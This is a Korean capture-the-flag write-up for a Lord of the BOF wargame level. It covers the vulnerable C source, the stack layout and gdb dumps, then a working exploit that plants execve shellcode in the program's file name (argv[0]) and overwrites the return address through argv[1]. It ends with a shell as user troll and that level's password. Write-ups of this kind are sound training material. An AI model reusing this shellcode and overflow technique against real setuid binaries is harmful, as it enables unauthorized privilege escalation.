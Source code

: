 ============================================================================================================
[lob] orge
============================================================================================================

.. uml::
    
    @startuml

    start

    :Source Analysis;

    :Memory Structure;

    :argv[0]을 통한 우회;
    
    :Segmentation fault;

    :argv[0]에 쉘코드 삽입;

    :RET 주소를 argv[0] 주소로 변경하여 공격 진행;
    
    stop

    @enduml

|

Source Analysis
============================================================================================================

해당 문제 소스코드는 다음과 같습니다.

.. code-block:: c

    /*
        The Lord of the BOF : The Fellowship of the BOF
        - troll
        - check argc + argv hunter
    */

    #include <stdio.h>
    #include <stdlib.h>

    extern char **environ;

    main(int argc, char *argv[])
    {
        char buffer[40];
        int i;

        // here is changed
        if(argc != 2){
            printf("argc must be two!\n");
            exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
            memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
            printf("stack is still your friend.\n");
            exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
            printf("argument is too long!\n");
            exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);

        // one more!
        memset(argv[1], 0, strlen(argv[1]));
    }


|

Memory Structure
============================================================================================================


스택에 다음과 같이 들어가게 됩니다.

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte)
    SFP     (4byte)
    RET     (4byte)
    argc    (4byte)
    argv    (4byte)
    ----------------
    HIGH    
    ================

|

argv[0]을 통한 우회 (argv[1] 초기화)
============================================================================================================

버퍼오버플로우가 일어나는 지점을 확인합니다.

※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행해야 합니다.

.. code-block:: console

    $ ./troll `python -c 'print "a"*47'`
    stack is still your friend.

    $ ./troll `python -c 'print "a"*47+"\xbf"'`
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒
    Segmentation fault

argv[1]을 초기화 해버리기 때문에 argv[1]로 버퍼오버플로우를 진행할 수 없습니다.

argv[0]에 쉘코드를 삽입하고 RET 주소를 argv[0] 주소로 변경하여 공격해야 합니다.


|

exploit
============================================================================================================


argv[0]에 쉘코드 삽입
------------------------------------------------------------------------------------------------------------

기존에 사용한 쉘코드에는 \x2f 값이 있기 때문에 정상적으로 쉘코드가 동작하지 않습니다.

\x2f가 없는 쉘코드로 파일명을 생성하도록 합니다.

.. code-block:: console
    
    $ ln troll `python -c 'print "\x90"*100+"\xd9\xc5\xd9\x74\x24\xf4\xb8\x15\xc3\x69\xd7\x5d\x29\xc9\xb1\x0b\x31\x45\x1a\x03\x45\x1a\x83\xc5\x04\xe2\xe0\xa9\x62\x8f\x93\x7c\x13\x47\x8e\xe3\x52\x70\xb8\xcc\x17\x17\x38\x7b\xf7\x85\x51\x15\x8e\xa9\xf3\x01\x98\x2d\xf3\xd1\xb6\x4f\x9a\xbf\xe7\xfc\x34\x40\xaf\x51\x4d\xa1\x82\xd6"'`
    $ ls
    troll
    troll.c
    ????????????????????????????????????????????????????????????????????????????????????????????????????▒▒▒t$▒?▒i▒])ɱ?1E??E??▒?▒▒b??|?G?▒Rp▒▒??8{▒?Q??▒▒??-▒ѶO?▒▒▒4@▒QM▒?▒

    $ ./`python -c 'print "\x90"*100+"\xd9\xc5\xd9\x74\x24\xf4\xb8\x15\xc3\x69\xd7\x5d\x29\xc9\xb1\x0b\x31\x45\x1a\x03\x45\x1a\x83\xc5\x04\xe2\xe0\xa9\x62\x8f\x93\x7c\x13\x47\x8e\xe3\x52\x70\xb8\xcc\x17\x17\x38\x7b\xf7\x85\x51\x15\x8e\xa9\xf3\x01\x98\x2d\xf3\xd1\xb6\x4f\x9a\xbf\xe7\xfc\x34\x40\xaf\x51\x4d\xa1\x82\xd6"'` a
    stack is still your friend.


.. code-block:: console

    (gdb) b *main
    Breakpoint 1 at 0x8048500

    (gdb) r `python -c 'print "a"*47+"\xbf"'`
    Starting program: /home/orge/▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒t$▒▒i▒])ɱ
                              1EE▒▒▒▒b▒▒|G▒▒Rp▒▒8{▒Q▒▒▒▒-▒ѶO▒▒▒▒4@▒QM▒▒▒ `python -c 'print "a"*47+"\xbf"'`
    /bin/bash: /home/goblin/.bashrc: Permission denied

    Breakpoint 1, 0x8048500 in main ()

    (gdb) stepi
    0x8048501 in main ()    

    (gdb) i reg $esp
    esp            0xbffff9a8       -1073743448

    (gdb) i reg $ebp
    ebp            0xbffff9c8       -1073743416

    (gdb) x/100x $esp

    ==========================================================================
    0xbffff9a8:     0xbffff9c8      0x400309cb      0x00000002      0xbffff9f4
    0xbffff9b8:     0xbffffa00      0x40013868      0x00000002      0x08048450
    0xbffff9c8:     0x00000000      0x08048471      0x08048500      0x00000002
    0xbffff9d8:     0xbffff9f4      0x08048390      0x0804866c      0x4000ae60
    0xbffff9e8:     0xbffff9ec      0x40013e90      0x00000002      0xbffffae7
    0xbffff9f8:     0xbffffb9d      0x00000000      0xbffffbce      0xbffffbf0
    0xbffffa08:     0xbffffbfa      0xbffffc08      0xbffffc27      0xbffffc34
    0xbffffa18:     0xbffffc4d      0xbffffc69      0xbffffc88      0xbffffc93
    0xbffffa28:     0xbffffca1      0xbffffce3      0xbffffcf3      0xbffffd08
    0xbffffa38:     0xbffffd18      0xbffffd22      0xbffffd40      0xbffffd4b
    0xbffffa48:     0xbffffd5c      0xbffffd6b      0xbffffd7a      0xbffffd83
    0xbffffa58:     0x00000000      0x00000003      0x08048034      0x00000004
    0xbffffa68:     0x00000020      0x00000005      0x00000006      0x00000006
    0xbffffa78:     0x00001000      0x00000007      0x40000000      0x00000008
    0xbffffa88:     0x00000000      0x00000009      0x08048450      0x0000000b
    0xbffffa98:     0x000001fb      0x0000000c      0x000001fb      0x0000000d
    0xbffffaa8:     0x000001fb      0x0000000e      0x000001fb      0x00000010
    0xbffffab8:     0x0fabfbff      0x0000000f      0xbffffae2      0x00000000
    0xbffffac8:     0x00000000      0x00000000      0x00000000      0x00000000
    0xbffffad8:     0x00000000      0x00000000      0x36690000      0x2f003638
    0xbffffae8:     0x656d6f68      0x67726f2f      0x90902f65      0x90909090
    0xbffffaf8:     0x90909090      0x90909090      0x90909090      0x90909090
    0xbffffb08:     0x90909090      0x90909090      0x90909090      0x90909090
    0xbffffb18:     0x90909090      0x90909090      0x90909090      0x90909090
    0xbffffb28:     0x90909090      0x90909090      0x90909090      0x90909090
    0xbffffb38:     0x90909090      0x90909090      0x90909090      0x90909090
    0xbffffb48:     0x90909090      0x90909090      0x90909090      0xc5d99090
    0xbffffb58:     0xf42474d9      0x69c315b8      0xc9295dd7      0x45310bb1
    0xbffffb68:     0x1a45031a      0xe204c583      0x8f62a9e0      0x47137c93
    0xbffffb78:     0x7052e38e      0x1717ccb8      0x85f77b38      0xa98e1551
    0xbffffb88:     0x2d9801f3      0x4fb6d1f3      0xfce7bf9a      0x51af4034
    0xbffffb98:     0xd682a14d      0x61616100      0x61616161      0x61616161
    0xbffffba8:     0x61616161      0x61616161      0x61616161      0x61616161
    0xbffffbb8:     0x61616161      0x61616161      0x61616161      0x61616161
                                            ^ argv[0] = 0xbffffbbf
    ==========================================================================



RET 주소를 argv[0] 주소로 변경하여 공격 진행
------------------------------------------------------------------------------------------------------------

filename : nop (100 byte) + shellcode (70 byte) 

argv[1] : nop (19 byte) + shellcode (25 byte) + argv[0] address



.. code-block:: console

    $ ./`python -c 'print "\x90"*100+"\xd9\xc5\xd9\x74\x24\xf4\xb8\x15\xc3\x69\xd7\x5d\x29\xc9\xb1\x0b\x31\x45\x1a\x03\x45\x1a\x83\xc5\x04\xe2\xe0\xa9\x62\x8f\x93\x7c\x13\x47\x8e\xe3\x52\x70\xb8\xcc\x17\x17\x38\x7b\xf7\x85\x51\x15\x8e\xa9\xf3\x01\x98\x2d\xf3\xd1\xb6\x4f\x9a\xbf\xe7\xfc\x34\x40\xaf\x51\x4d\xa1\x82\xd6"'` `python -c 'print "\x90"*19+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\xbf\xfb\xff\xbf"'`
    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                           ̀▒▒▒▒

    bash$ whoami
    troll
    bash$ my-pass
    euid = 508
    aspirin
